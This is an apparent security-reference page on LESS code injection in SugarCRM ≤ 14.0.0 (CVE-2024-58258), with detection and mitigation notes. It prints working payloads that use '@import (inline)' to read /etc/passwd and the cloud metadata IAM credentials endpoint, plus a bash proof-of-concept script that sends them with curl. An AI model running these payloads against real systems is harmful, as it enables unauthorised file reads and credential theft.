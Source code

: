 # LESS Code Injection leading to SSRF & Local File Read


## Overview

LESS is a popular CSS pre-processor that adds variables, mixins, functions and the powerful `@import` directive.  During compilation the LESS engine will **fetch the resources referenced in `@import`** statements and embed ("inline") their contents into the resulting CSS when the `(inline)` option is used.

When an application concatenates **user-controlled input** into a string that is later parsed by the LESS compiler, an attacker can **inject arbitrary LESS code**.  By abusing `@import (inline)` the attacker can force the server to retrieve:

* Local files via the `file://` protocol (information disclosure / Local File Inclusion).
* Remote resources on internal networks or cloud metadata services (SSRF).

This technique has been seen in real-world products such as **SugarCRM ≤ 14.0.0** (`/rest/v10/css/preview` endpoint).

## Exploitation

1. Identify a parameter that is directly embedded inside a stylesheet string processed by the LESS engine (e.g. `?lm=` in SugarCRM).
2. Close the current statement and inject new directives.  The most common primitives are:
   * `;`  – terminates the previous declaration.
   * `}`  – closes the previous block (if required).
3. Use `@import (inline) '<URL>';` to read arbitrary resources.
4. Optionally inject a **marker** (`data:` URI) after the import to ease extraction of the fetched content from the compiled CSS.

### Local File Read

```
1; @import (inline) 'file:///etc/passwd';
@import (inline) 'data:text/plain,@@END@@'; //
```
```
The contents of `/etc/passwd` will appear in the HTTP response just before the `@@END@@` marker.

### SSRF – Cloud Metadata

```
1; @import (inline) "http://169.254.169.254/latest/meta-data/iam/security-credentials/";
@import (inline) 'data:text/plain,@@END@@'; //
```
```
### Automated PoC (SugarCRM example)

```bash
#!/usr/bin/env bash
# Usage: ./exploit.sh http://target/sugarcrm/ /etc/passwd

TARGET="$1"        # Base URL of SugarCRM instance
RESOURCE="$2"      # file:// path or URL to fetch

INJ=$(python -c "import urllib.parse,sys;print(urllib.parse.quote_plus(\"1; @import (inline) '$RESOURCE'; @import (inline) 'data:text/plain,@@END@@';//\"))")

curl -sk "${TARGET}rest/v10/css/preview?baseUrl=1&lm=${INJ}" | \
  sed -n 's/.*@@END@@\(.*\)/\1/p'
```
```
## Detection

* Look for dynamically generated `.less` or `.css` responses containing unsanitised query parameters.
* During code review, search for constructions like `"@media all { .preview { ... ${userInput} ... } }"` passed to LESS render functions.
* Exploit attempts often include `@import`, `(inline)`, `file://`, `http://169.254.169.254`, etc.

## Mitigations

* Do **not** pass untrusted data to the LESS compiler.
* If dynamic values are required, properly **escape**/sanitize them (e.g., restrict to numeric tokens, whitelists).
* Disable, when possible, the ability to use `(inline)` imports, or limit allowed protocols to `https`.
* Keep dependencies up to date – SugarCRM patched this issue in versions 13.0.4 and 14.0.1.

## Real-World Cases

| Product | Vulnerable Endpoint | Impact |
|---------|--------------------|--------|
| SugarCRM ≤ 14.0.0 | `/rest/v10/css/preview?lm=` | Unauthenticated SSRF & local file read |

## References

* [[https://karmainsecurity.com/KIS-2025-04|SugarCRM ≤ 14.0.0 (css/preview) LESS Code Injection Vulnerability]]
* [[https://support.sugarcrm.com/resources/security/sugarcrm-sa-2024-059/|SugarCRM Security Advisory SA-2024-059]]
* [[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-58258|CVE-2024-58258]]

